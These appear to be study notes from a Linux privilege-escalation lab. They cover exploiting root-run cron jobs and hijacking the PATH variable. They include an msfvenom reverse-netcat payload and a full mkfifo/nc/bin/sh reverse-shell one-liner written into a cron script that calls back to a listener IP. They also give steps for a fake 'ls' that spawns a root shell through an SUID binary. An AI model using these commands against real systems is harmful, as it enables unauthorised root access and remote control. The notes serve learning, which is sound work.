 ## Exploiting Crontab
- Use `cat /etc/crontab` to see which jobs are scheduled
Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 
- Format
```
# = ID
m = Minute
h = Hour
dom = Day of the month
mon = Month
dow = Day of the week
user = What user the command will run as
command = What command should be run

Ex.
#  m   h dom mon dow user  command
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```
- To exploit cron jobs, see if the program is being run as root. If it is, check if you have write permission on that program or any programs being called inside that program
- Exercise
    - Create a payload with msfvenom `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R` to get `mkfifo /tmp/qbwebbr; nc <ip address> 8888 0</tmp/qbwebbr | /bin/sh >/tmp/qbwebbr 2>&1; rm /tmp/qbwebbr`
    1. `/home/user4/Desktop`
    - Overwrite autoscript.sh with payload `echo "mkfifo /tmp/qbwebbr; nc 10.13.22.138 8888 0</tmp/qbwebbr | /bin/sh >/tmp/qbwebbr 2>&1; rm /tmp/qbwebbr" > autoscript.sh`
    - Set up a netcat listener `nc -nvlp 8888` and wait for cron to execute autoscript.sh as root

## Exploiting the PATH Variable
- PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.
- View variable with `echo $PATH`
```
Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!
```
- Exercise
    1. ls
    - `cd /tmp` and create an intimation executable with `echo "[whatever command we want to run]" > [name of the executable we're imitating]`
    2. Create intimation executable with `echo "/bin/bash" > ls`
    3. Make it executable with `chmod +x ls`
    - Change the path with `export PATH=/tmp:$PATH`
    4. Change the path variable to point to where we have our intimation variable with `export PATH=/tmp:$PATH`
    5. Run the script executable again and now you'll be promoted to root
